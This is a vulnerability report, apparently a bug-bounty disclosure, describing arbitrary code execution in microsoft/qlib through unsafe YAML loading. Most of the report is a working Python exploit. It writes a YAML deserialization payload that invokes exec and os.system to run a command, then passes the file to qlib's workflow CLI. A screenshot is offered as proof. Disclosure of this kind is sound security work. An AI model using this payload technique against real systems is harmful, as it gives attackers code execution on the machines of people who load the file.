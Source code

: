 # Description
**Arbitrary Code Excecution** in microsoft/qlib.
Qlib is an AI-oriented quantitative investment platform, which aims to realize the potential, empower the research, and create the value of AI technologies in quantitative investment.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**
# Exploit code
**Python File**
```python
import os
import qlib.workflow.cli as cli

exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('exploit.yml','w+').write(exploit)
cli.workflow('exploit.yml','workflow','/tmp')
os.system('rm exploit.yml')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/785893890766798868/Screenshot_from_2020-12-08_21-00-55.png)
